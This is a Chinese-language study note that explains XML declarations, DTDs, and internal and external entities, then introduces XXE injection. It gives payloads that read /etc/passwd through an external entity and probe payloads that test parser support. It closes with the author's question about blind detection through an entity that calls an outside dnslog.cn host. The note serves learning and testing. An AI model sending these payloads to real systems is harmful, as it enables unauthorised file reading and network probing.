





## XML文档组成

完整的XML文档结构如下：

```
1. XML 声明（必须第一行）
2. 文档类型定义 DTD（可选） 
3. 注释（可选） 
4. 根元素（必须有，且只能一个） 
   ├─ 子元素 
   └─ 属性、文本等
```

#### 例子：

```xml
<?xml version="1.0" encoding="UTF-8"?>
//声明

<!-- 完整XML文档：包含声明 + DTD + 元素 + 属性 + 注释 + CDATA -->
//注释

<!DOCTYPE students [
    <!-- DTD 文档类型定义：约束XML结构 -->
    <!ELEMENT students (student+)>
    <!ELEMENT student (name, age, sex, info)>
    <!ATTLIST student sid ID #REQUIRED class CDATA #IMPLIED>
    <!ELEMENT name (#PCDATA)>
    <!ELEMENT age (#PCDATA)>
    <!ELEMENT sex (#PCDATA)>
    <!ELEMENT info (#PCDATA)>
]>
//DTD

<students>
    <student sid="s002" class="计算机二班">
        <name>小红</name>
        <age>17</age>
        <sex>女</sex>
        <info>学习认真，成绩优秀</info>
    </student>
</students>
//内容
```

#### 代码的解析结果是：



#### 简单解释一下代码：

```
1.DTD：用来约束XML能写什么标签，什么结构
<!DOCTYPE 根标签名 [ 
    元素声明 
    属性声明 
]>

2.根元素（必须有，且只能有一个）
整个XML只有一个最外层的标签，叫做根元素
所有的其他内容都要封在这里面（如下图所示）
```



## DTD文档介绍

先看一个例子

```dtd
<!DOCTYPE students [
  <!ELEMENT students (student+)>      <!-- 根标签 students 里必须包含 1个或多个 student -->
  <!ELEMENT student (name, age, sex, info)>  <!-- student 里必须按顺序写这4个标签 -->
  <!ATTLIST student                    <!-- 给 student 定义属性 -->
    sid ID #REQUIRED                  <!-- sid 是必须写的唯一属性 -->
    class CDATA #IMPLIED              <!-- class 是可选属性 -->
  >
  <!ELEMENT name (#PCDATA)>           <!-- name 里放文本 -->
  <!ELEMENT age (#PCDATA)>            <!-- age 里放文本 -->
  <!ELEMENT sex (#PCDATA)>            <!-- sex 里放文本 -->
  <!ELEMENT info (#PCDATA)>           <!-- info 里放文本 -->
]>
```

#### 内部引用

就是和`xml`写在同一个文件里


**格式如下：**

```dtd
<!ENTITY 实体名 "实体内容">
```

**使用方式：**

```
&实体名;
```

**例子：**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
  <!ELEMENT info (#PCDATA)>
  <!ENTITY company "腾讯科技有限公司">
]>

<test>
  <info>公司名称：&company;</info>
</test>
```

**输出如下：**



---

#### 外部引用

就是将`dtd`规则单独写在一个`.dtd`文件中，`xml`只是引用它，可以被多个文件共同引用




**格式如下：**

```dtd
<!ENTITY 实体名 SYSTEM "外部文件路径">
```

**使用方式：**

```
&实体名;
```

**例子：**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
  <!ELEMENT info (#PCDATA)>
  <!ENTITY company SYSTEM "signature.txt">
]>

<test>
  <info>公司名称：&company;</info>
</test>

//signature.txt中写着whoami
```

## 外部实体注入漏洞

先看一个例子：

```xml
<?xml version="1.0"?>
<!DOCTYPE test [
  <!-- 恶意外部实体：读取服务器本地文件 -->
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>

<data>&xxe;</data>
```

#### 危害：

任意文件读取

执行系统命令

探测内网端口

`dos`攻击

#### 漏洞探测

1. 检查是否支持内部实体

```xml
<?xml version="1.0" encoding="utf8"?>
<!DOCTYPE user [
    <!ELEMENT user ANY >
    <!ENTITY xxe "test" >
]> 
<user>
    <username>&xxe;</username>
    <password>1234</password>
</user>
```

2. 检测是否支持外部实体

```xml
<?xml version="1.0" encoding="utf8"?>
<!DOCTYPE user [
  <!ELEMENT user ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]> 
<user>
  <username>&xxe;</username>
  <password>1234</password>
</user>
```

---

对于有回显无回显的一些思考，对于无回显想到的dnslog的一些局限，还有进一步利用的思考：

https://docs.google.com/document/d/1l6OFuLOhC-8bW8Iy6dQDMJG1g-wmPyM-vX_E_NSAp0w/edit?usp=sharing


> 我提出的问题：




```
这个呢？我们老师直接给我这个说使用dnslog，但我也就只是知道了如何获取这个，但是不知道实际是如何使用的？是直接在获取的域名前面加命令吗？比如直接
<!ENTITY xxe SYSTEM "http://dir.138owz.dnslog.cn">这样吗？
```

